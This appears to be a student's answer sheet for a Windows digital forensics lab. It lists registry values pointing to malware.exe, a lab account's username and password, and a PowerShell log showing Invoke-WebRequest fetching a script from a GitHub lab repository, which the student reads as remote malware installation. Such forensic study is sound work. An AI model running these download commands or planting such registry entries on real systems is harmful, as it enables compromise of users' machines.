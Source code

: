                       						 ![](NU-logo.jpg)

**21k-4760**
**Muhammad Musayiab**

**Question no 1:**

Part a) Mouse double click speed : 500

Part b) url1Registry Last write: 2023-01-29 16:25:07
Value: url1 (RegSz)
Data: C:\Windows\System32\calc.exe

Part c) Registry file: Value: Malware (RegSz)
Data: C:\Users\w\Desktop\malware.exe
Slack: 00-00-78-00-65-00

**Question no 2:**

Part a) Username: hackerman
	   b) password: sup3rs3cur3p4ssw0rd
Part b) What’s the most frequently visited website? (amazon.com)
Part c) download :  pyhton downlooad.


**Question no 3:**

Part a) Log Name:      Microsoft-Windows-PowerShell/Operational
Source:        Microsoft-Windows-PowerShell
Date:          1/29/2023 10:55:04 PM
Event ID:      4104
Task Category: Execute a Remote Command
Level:         Verbose
Description:
Creating Scriptblock text (1 of 1):
Invoke-WebRequest -UseBasicParsing -Uri https://raw.githubusercontent.com/vonderchild/digital-forensics-lab/main/Lab%202/files/file.ps1 -OutFile "file.ps1"

Part b) The purpose was to install malware remotely to the computer.

